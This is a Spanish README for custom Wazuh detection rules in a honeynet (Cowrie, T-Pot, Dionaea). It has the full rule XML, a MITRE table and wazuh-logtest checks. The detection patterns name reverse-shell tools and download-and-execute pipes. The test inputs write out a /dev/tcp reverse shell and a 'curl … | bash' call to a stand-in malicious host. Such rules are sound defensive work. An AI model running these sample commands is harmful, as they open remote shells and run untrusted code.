

# Reglas Custom de Wazuh — HoneyNet

> **Ubicación en el Manager:** `/var/ossec/etc/rules/`  
> **Archivos activos:** `100-cowrie_rules.xml` · `local_rules.xml`  
> **Wazuh Manager:** v4.14.2

---

## Tabla de Contenidos

1. [Arquitectura de Reglas](#1-arquitectura-de-reglas)
2. [100-cowrie_rules.xml](#2-100-cowrie_rulesxml)
3. [local_rules.xml](#3-local_rulesxml)
4. [Cobertura MITRE ATT&CK](#4-cobertura-mitre-attck)
5. [Validación con wazuh-logtest](#5-validación-con-wazuh-logtest)
6. [Aplicar Cambios](#6-aplicar-cambios)

---

## 1. Arquitectura de Reglas

Las reglas siguen un modelo **padre → hijo** en dos niveles. El orden de
carga de archivos es determinante para que las dependencias se resuelvan
correctamente:



> **Decisión técnica crítica — `no_log` vs `noalert`:**  
> La regla 100502 (login.failed) usa `<options>no_log</options>` y **no**
> `noalert="1"`. Esto es deliberado: `noalert` impide que la regla sea
> referenciada por `<if_matched_sid>`, lo que rompería la correlación de
> brute-force en las reglas threshold 100504 y 100507. Con `no_log` se
> suprime el log individual sin afectar la correlación.

---

## 2. 100-cowrie_rules.xml

**Ruta:** `/var/ossec/etc/rules/100-cowrie_rules.xml`  
**Archivo fuente:** [`configs/wazuh/100-cowrie_rules.xml`](../configs/wazuh/100-cowrie_rules.xml)

### Contenido completo

```xml
<group name="cowrie,honeypot,">

  <!-- Agrupador general Cowrie -->
  <rule id="100500" level="0">
    <decoded_as>json</decoded_as>
    <field name="eventid" type="pcre2">^cowrie\.</field>
    <description>Cowrie: grouping rule (raw JSON events).</description>
  </rule>

  <!-- Conexión / cierre de sesión (suprimidos, bajo valor) -->
  <rule id="100501" level="3">
    <if_sid>100500</if_sid>
    <field name="eventid">cowrie.session.connect</field>
    <options>no_log</options>
    <description>Cowrie: session connect.</description>
    <group>cowrie,honeypot,</group>
  </rule>

  <rule id="100506" level="2">
    <if_sid>100500</if_sid>
    <field name="eventid">cowrie.session.closed</field>
    <options>no_log</options>
    <description>Cowrie: session closed.</description>
    <group>cowrie,honeypot,</group>
  </rule>

  <!-- Login fallido base — no_log para correlación brute force
       IMPORTANTE: NO usar noalert aquí, porque rompe if_matched_sid -->
  <rule id="100502" level="3">
    <if_sid>100500</if_sid>
    <field name="eventid">cowrie.login.failed</field>
    <options>no_log</options>
    <description>Cowrie: login failed (base for correlation, no_log).</description>
    <mitre>
      <id>T1110.001</id>
    </mitre>
    <group>cowrie,honeypot,authentication_failed,</group>
  </rule>

  <!-- Login exitoso (en honeypot es señal fuerte) -->
  <rule id="100503" level="8">
    <if_sid>100500</if_sid>
    <field name="eventid">cowrie.login.success</field>
    <description>Cowrie: login success.</description>
    <mitre>
      <id>T1110.001</id>
    </mitre>
    <group>cowrie,honeypot,authentication_success,</group>
  </rule>

  <!-- Brute force SSH: threshold >=10 en 180s -->
  <rule id="100504" level="10" frequency="10" timeframe="180" ignore="600">
    <if_matched_sid>100502</if_matched_sid>
    <same_field>src_ip</same_field>
    <protocol>ssh</protocol>
    <description>
      Cowrie: possible brute force (SSH) - many failed logins from same src_ip.
    </description>
    <mitre>
      <id>T1110.001</id>
    </mitre>
    <group>cowrie,honeypot,attack,bruteforce,</group>
  </rule>

  <!-- Brute force Telnet: threshold >=10 en 180s -->
  <rule id="100507" level="10" frequency="10" timeframe="180" ignore="600">
    <if_matched_sid>100502</if_matched_sid>
    <same_field>src_ip</same_field>
    <protocol>telnet</protocol>
    <description>
      Cowrie: possible brute force (Telnet) - many failed logins from same src_ip.
    </description>
    <mitre>
      <id>T1110.001</id>
    </mitre>
    <group>cowrie,honeypot,attack,bruteforce,</group>
  </rule>

  <!-- Command input — base noalert para correlación de alta fidelidad -->
  <rule id="100505" level="1" noalert="1">
    <if_sid>100500</if_sid>
    <field name="eventid">cowrie.command.input</field>
    <description>Cowrie: command input (base, noalert).</description>
    <group>cowrie,honeypot,</group>
  </rule>

  <!-- Alta fidelidad: download + execute (nivel 13) -->
  <rule id="100511" level="13">
    <if_sid>100505</if_sid>
    <field name="input" type="pcre2">
      (?i)\b(curl|wget)\b.*(\|\s*(sh|bash)\b|\b-O-\s*-\b.*\|\s*(sh|bash)\b)
    </field>
    <description>Cowrie: download+execute (pipe a shell): $(input)</description>
    <mitre>
      <id>T1059</id>
    </mitre>
    <group>attack,execution,cowrie,honeypot,</group>
  </rule>

  <!-- Crítico: reverse shell / interacción sospechosa (nivel 14) -->
  <rule id="100512" level="14">
    <if_sid>100505</if_sid>
    <field name="input" type="pcre2">
      (?i)(/dev/tcp/\d{1,3}(?:\.\d{1,3}){3}/\d+|\bnc\b.*\s-e\s|\bncat\b.*\s-e\s|\bsocat\b.*\sEXEC:|\bbash\b\s+-i\b)
    </field>
    <description>Cowrie: probable reverse shell / interactive exec: $(input)</description>
    <mitre>
      <id>T1059</id>
    </mitre>
    <group>attack,execution,cowrie,honeypot,</group>
  </rule>

  <!-- Moderado: preparación / persistencia (nivel 11) -->
  <rule id="100513" level="11">
    <if_sid>100505</if_sid>
    <field name="input" type="pcre2">
      (?i)\b(chmod\s+\+x|nohup|crontab|systemctl\s+enable)\b
    </field>
    <description>Cowrie: suspicious prepare/persist attempt: $(input)</description>
    <mitre>
      <id>T1059</id>
    </mitre>
    <group>attack,cowrie,honeypot,</group>
  </rule>

</group>
```


> **Decisión técnica crítica — `no_log` vs `noalert`:**  
> La regla 100502 (login.failed) usa `<options>no_log</options>` y **no**
> `noalert="1"`. Esto es deliberado: `noalert` impide que la regla sea
> referenciada por `<if_matched_sid>`, lo que rompería la correlación de
> brute-force en las reglas threshold 100504 y 100507. Con `no_log` se
> suprime el log individual sin afectar la correlación.

---

## 3. local_rules.xml

**Ruta:** `/var/ossec/etc/rules/local_rules.xml`  
**Archivo fuente:** [`configs/wazuh/local_rules.xml`](https://www.perplexity.ai/configs/wazuh/local_rules.xml)

## Contenido completo
```xml
<!-- Local rules -->
<!-- Copyright (C) 2015, Wazuh Inc. -->

<!-- ==================== HONEYNET TI - COWRIE ====================
     ORDEN CRÍTICO: 100550/100578 dependen de 100500
     definido en 100-cowrie_rules.xml (cargado antes).
     ================================================================ -->
<group name="honeynet,ti,enriched,">

  <!-- CDB lookup Cowrie: hijo de 100500 -->
  <rule id="100550" level="10">
    <if_sid>100500</if_sid>
    <list field="src_ip" lookup="address_match_key">
      etc/lists/honeynet-ti-ip.enriched.top200
    </list>
    <description>HoneyNet TI: src_ip en CDB TOP200 - Cowrie ($(src_ip))</description>
    <group>honeynet_ti_enriched</group>
  </rule>

  <rule id="100578" level="10">
    <if_sid>100550</if_sid>
    <description>HoneyNet/TI: match Threat Intel en Cowrie - $(src_ip)</description>
    <group>honeynet_ti,cowrie</group>
  </rule>

</group>

<!-- ==================== REGLAS HONEYNET - T-POT + DIONAEA ====================
     ORDEN CRÍTICO: parents 100568 y 100582 DEBEN definirse
     ANTES de las reglas hijo que los referencian.
     ========================================================================== -->
<group name="honeynet,honeypots,tpot,">

  <!-- PARENT T-POT -->
  <rule id="100568" level="0">
    <decoded_as>json</decoded_as>
    <field name="@source">tpot</field>
    <description>HoneyNet/T-Pot: evento detectado (parent rule).</description>
    <group>honeynet,tpot</group>
  </rule>

  <!-- PARENT DIONAEA -->
  <rule id="100582" level="0">
    <decoded_as>json</decoded_as>
    <field name="@source">dionaea</field>
    <description>HoneyNet/Dionaea: evento detectado (parent rule).</description>
    <group>honeynet,dionaea</group>
  </rule>

  <!-- CDB lookup T-Pot -->
  <rule id="100551" level="10">
    <if_sid>100568</if_sid>
    <field name="@source">tpot</field>
    <list field="client_ip" lookup="address_match_key">
      etc/lists/honeynet-ti-ip.enriched.top200
    </list>
    <description>HoneyNet TI: src_ip en CDB TOP200 - T-Pot ($(client_ip))</description>
    <group>honeynet_ti_enriched</group>
  </rule>

  <rule id="100579" level="10">
    <if_sid>100551</if_sid>
    <description>HoneyNet/TI: match Threat Intel en T-Pot - $(client_ip)</description>
    <group>honeynet_ti,tpot</group>
  </rule>

  <!-- CDB lookup Dionaea -->
  <rule id="100553" level="10">
    <if_sid>100582</if_sid>
    <field name="@source">dionaea</field>
    <list field="src_ip" lookup="address_match_key">
      etc/lists/honeynet-ti-ip.enriched.top200
    </list>
    <description>HoneyNet TI: src_ip en CDB TOP200 - Dionaea ($(src_ip))</description>
    <group>honeynet_ti_enriched</group>
  </rule>

  <rule id="100580" level="10">
    <if_sid>100553</if_sid>
    <description>HoneyNet/TI: match Threat Intel en Dionaea - $(src_ip)</description>
    <group>honeynet_ti,dionaea</group>
  </rule>

  <!-- T-Pot: RDP -->
  <rule id="100571" level="4">
    <if_sid>100568</if_sid>
    <match>RDP connection request</match>
    <field name="client_ip">\S+</field>
    <description>HoneyNet/T-Pot: RDP connection request - $(client_ip)</description>
    <mitre><id>T1046</id></mitre>
    <group>honeynet_auth_probe,tpot,rdp,scan</group>
  </rule>

  <!-- T-Pot: SSH -->
  <rule id="100572" level="4">
    <if_sid>100568</if_sid>
    <match>SSH Scan|SSH session|Potential SSH</match>
    <field name="client_ip">\S+</field>
    <description>HoneyNet/T-Pot: SSH scan/session - $(client_ip)</description>
    <mitre><id>T1046</id></mitre>
    <group>honeynet_auth_probe,tpot,ssh,scan</group>
  </rule>

  <!-- T-Pot: Scans NMAP/CINS/ET -->
  <rule id="100581" level="3">
    <if_sid>100568</if_sid>
    <match>ET SCAN|ET CINS|reputation|NMAP|scan|probe</match>
    <description>HoneyNet/T-Pot: scan/probe/reputation (NMAP, CINS, etc.).</description>
    <mitre><id>T1046</id></mitre>
    <group>honeynet_scan,tpot,scan</group>
  </rule>

  <!-- Cowrie: dropper command (hijo de 100505) -->
  <rule id="100577" level="12">
    <if_sid>100505</if_sid>
    <field name="input" type="pcre2">
      (?i)\b(wget|curl|tftp|ftpget|python\s+-c|perl\s+-e)\b
    </field>
    <description>HoneyNet/Cowrie: dropper command desde $(src_ip).</description>
    <mitre><id>T1105</id></mitre>
    <group>honeynet_execution,cowrie,attack</group>
  </rule>

  <!-- Threshold: Cowrie brute-force (>=8/120s) -->
  <rule id="100573" level="10" frequency="8" timeframe="120" ignore="60">
    <if_matched_sid>100502</if_matched_sid>
    <same_field>src_ip</same_field>
    <description>
      HoneyNet/Cowrie: posible brute-force SSH (>=8/120s) desde $(src_ip).
    </description>
    <mitre><id>T1110</id></mitre>
    <group>honeynet_bruteforce,cowrie,credential_access</group>
  </rule>

  <!-- Threshold: T-Pot RDP repetición (>=10/300s) -->
  <rule id="100574" level="8" frequency="10" timeframe="300" ignore="120">
    <if_matched_sid>100571</if_matched_sid>
    <same_field>client_ip</same_field>
    <description>
      HoneyNet/T-Pot: alta repetición RDP (>=10/300s) desde $(client_ip).
    </description>
    <mitre><id>T1046</id></mitre>
    <group>honeynet_scan,tpot,rdp</group>
  </rule>

  <!-- Threshold: T-Pot SSH repetición (>=10/300s) -->
  <rule id="100575" level="8" frequency="10" timeframe="300" ignore="120">
    <if_matched_sid>100572</if_matched_sid>
    <same_field>client_ip</same_field>
    <description>
      HoneyNet/T-Pot: alta repetición SSH (>=10/300s) desde $(client_ip).
    </description>
    <mitre><id>T1046</id></mitre>
    <group>honeynet_scan,tpot,ssh</group>
  </rule>

  <!-- Correlación multi-honeypot (>=2 honeypots/600s) -->
  <rule id="100576" level="12" frequency="2" timeframe="600" ignore="300">
    <if_matched_group>honeynet_auth_probe</if_matched_group>
    <same_field>client_ip</same_field>
    <description>
      HoneyNet: actividad coordinada multi-honeypot desde $(client_ip)
      (>=2 honeypots/600s).
    </description>
    <mitre><id>T1595</id></mitre>
    <group>honeynet_coordinated,correlation</group>
  </rule>

  <!-- Dionaea: cualquier conexión -->
  <rule id="100583" level="3">
    <if_sid>100582</if_sid>
    <description>
      HoneyNet/Dionaea: conexión capturada en $(dst_port) desde $(src_ip)
    </description>
    <mitre><id>T1203</id></mitre>
    <group>honeynet,dionaea,connection</group>
  </rule>

  <!-- Dionaea: SMB específico -->
  <rule id="100584" level="6">
    <if_sid>100582</if_sid>
    <field name="dst_port">^445$</field>
    <description>HoneyNet/Dionaea: intento SMB desde $(src_ip)</description>
    <mitre><id>T1021.002</id></mitre>
    <group>honeynet,dionaea,smb</group>
  </rule>

  <!-- Override Suricata: agrega contexto MITRE a alertas T-Pot -->
  <rule id="100585" level="3">
    <if_sid>86601</if_sid>
    <field name="@source">tpot</field>
    <description>HoneyNet/T-Pot: Suricata IDS alert - Network scan/probe</description>
    <mitre><id>T1046</id></mitre>
    <group>honeynet,tpot,ids,suricata</group>
  </rule>

</group>
```
## 4. Cobertura MITRE ATT&CK
|Técnica|ID|Honeypot(s)|Regla(s)|Nivel|
|---|---|---|---|---|
|Brute Force: Password Guessing|T1110.001|Cowrie|100504, 100507|10|
|Brute Force (genérico threshold)|T1110|Cowrie|100573|10|
|Command and Scripting Interpreter|T1059|Cowrie|100511, 100512, 100513|11–14|
|Ingress Tool Transfer|T1105|Cowrie|100577|12|
|Network Service Scanning|T1046|T-Pot|100571–575, 100581, 100585|3–8|
|Active Scanning|T1595|Multi-honeypot|100576|12|
|SMB/Windows Admin Shares|T1021.002|Dionaea|100584|6|
|Exploitation for Client Execution|T1203|Dionaea|100583|3|
|Threat Intelligence match|—|Cowrie · T-Pot · Dionaea|100578, 100579, 100580|10|
## 5. Validación con wazuh-logtest

## 5.1 Login fallido — verificar correlación activa

```bash
sudo /var/ossec/bin/wazuh-logtest
```

Pegar:
```bash
{"eventid":"cowrie.login.failed","src_ip":"1.2.3.4","username":"root","password":"admin","timestamp":"2026-02-10T10:00:00Z","@source":"cowrie"}
```

Resultado esperado (no debe generar alerta individual por `no_log`,  
pero sí debe matchear para correlación):

```text
**Phase 3: Completed filtering (rules).
       Rule id: '100502' — Level: 3
       Options: 'no_log'
```

## 5.2 Reverse shell — nivel crítico 14

```bash
{"eventid":"cowrie.command.input","src_ip":"1.2.3.4","input":"bash -i >& /dev/tcp/10.10.10.1/4444 0>&1","timestamp":"2026-02-10T10:00:01Z","@source":"cowrie"}
```

Resultado esperado:

```text
**Phase 3: Completed filtering (rules).
       Rule id: '100512' — Level: 14
       mitre.id: 'T1059'
       group: 'attack,execution,cowrie,honeypot'
```

## 5.3 Download + execute — nivel 13

```bash
{"eventid":"cowrie.command.input","src_ip":"1.2.3.4","input":"curl http://malicious.com/payload | bash","timestamp":"2026-02-10T10:00:02Z","@source":"cowrie"}
```

Resultado esperado:

```text
Rule id: '100511' — Level: 13
mitre.id: 'T1059'
```

## 5.4 Verificar sintaxis completa

```bash
sudo /var/ossec/bin/wazuh-analysisd -t
# rc=0 → sin errores de sintaxis XML
```

## 6. Aplicar Cambios

```bash
# Copiar archivos al directorio de reglas del Manager
sudo cp configs/wazuh/100-cowrie_rules.xml /var/ossec/etc/rules/
sudo cp configs/wazuh/local_rules.xml      /var/ossec/etc/rules/

# Validar sintaxis antes de reiniciar
sudo /var/ossec/bin/wazuh-analysisd -t

# Aplicar
sudo systemctl restart wazuh-manager

# Confirmar arranque sin errores
sudo journalctl -u wazuh-manager --no-pager | tail -15
```

## Referencias

- [Wazuh — Custom rules syntax](https://documentation.wazuh.com/current/user-manual/ruleset/rules-syntax.html)
    
- [Wazuh — CDB lists](https://documentation.wazuh.com/current/user-manual/ruleset/cdb-list.html)
    
- [Wazuh — MITRE ATT&CK integration](https://documentation.wazuh.com/current/user-manual/ruleset/mitre.html)
    
- [MITRE ATT&CK — Enterprise Matrix](https://attack.mitre.org/matrices/enterprise/)
